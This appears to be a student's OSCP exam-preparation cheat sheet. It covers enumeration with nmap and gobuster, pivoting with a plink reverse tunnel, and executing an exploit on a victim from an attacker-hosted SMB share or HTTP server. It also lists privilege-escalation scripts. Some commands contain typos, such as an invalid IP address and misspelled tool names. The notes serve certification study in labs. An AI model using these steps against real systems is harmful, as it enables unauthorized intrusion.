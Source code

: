 # OSCP Prep Notes

Welcome to my learning notes for OSCP by OffensiveSecurity. I will update the metrials here during my 30 days course time.

## Taking Proof files

### Windows

```
hostname && whoami && type C:\Documents and Settings\Administrator\Desktop\proof.txt && ipconfig /all
```

### Linux

```
hostname && whoami && cat /root/proof.txt && /sbin/ifconfig
```

## Pivoting

### Windows

Find running service which are listening to loopback only (i.e., 127.0.0.1 or LISTENING/LISTEN in thier status):

```
netstat -ano
```

For example, if MySQL found listen locally on 3306 we can use plink.exe to prefrom port forward to our machine:

```
root@kali:~/#: plink.exe -l root -pw toor 192.168.0.101 -R 3306:127.0.0.1:3306
```

Then in kali you could interact with database locally:

```
root@kali:~/#: mysql -u root -p 
```

The plink.exe could be found here: https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html

### Linux

TBD

## Transferring files

### Rdesktop

If if had a remote dektop machine I used the following command to mount share folder:

```
root@kali:~/#: rdesktop 192.268.11.10 -r disk:share=/home/bayo/store
```

### SMB Share

In kali use Impacket to create local SMB Share:

```
root@kali:~/#: python /usr/share/impacket/examples/smbserver.py MyShare /
```

On victim machine execute my payload via SMB:

```
C:\> \\192.168.11.10\MyShare\exploit_kernerl.exe
```
### Python Server

On my kali machine, start the Python SimpleHTTPServer on port 80:

```
root@kali:~/#: python -m SimpleHTTPServer 8080
```

Then use powershell on victim machine / wget in linux to download my exploit.

## Methodology

1) Ports & Services Enumeration using NMAP

```
root@kali:~/#: nmap -sV -sC -p- <IP>
root@kali:~/#: nmap -sU --top-ports=50 <IP>
root@kali:~/#: nmap --script smb-vuln-* <IP>
root@kali:~/#: nmap -sV -T4 -p- <IP> (Quick method)
```

2) Enumerate web application

```
root@kali:~/#: gobuster dir -u <url> -w /usr/share/wordlist/directory-2.3-meduim.txt
root@kali:~/#: nikito -u <url>
```

3) Post Exploition

After gaining inital acsses to shell and prompt TTY shell, then running one of the following script to enumrate:

Windows:

- Powerup - https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
- JAWS - https://github.com/411Hall/JAWS

Linux:

- LinEnum.sh - https://github.com/rebootuser/LinEnum
- LSE - https://github.com/diego-treitos/linux-smart-enumeration

If none of them works, move to manully search.

4) Priviliage esclation

Depend on the attack vector preform priviliage esclation.

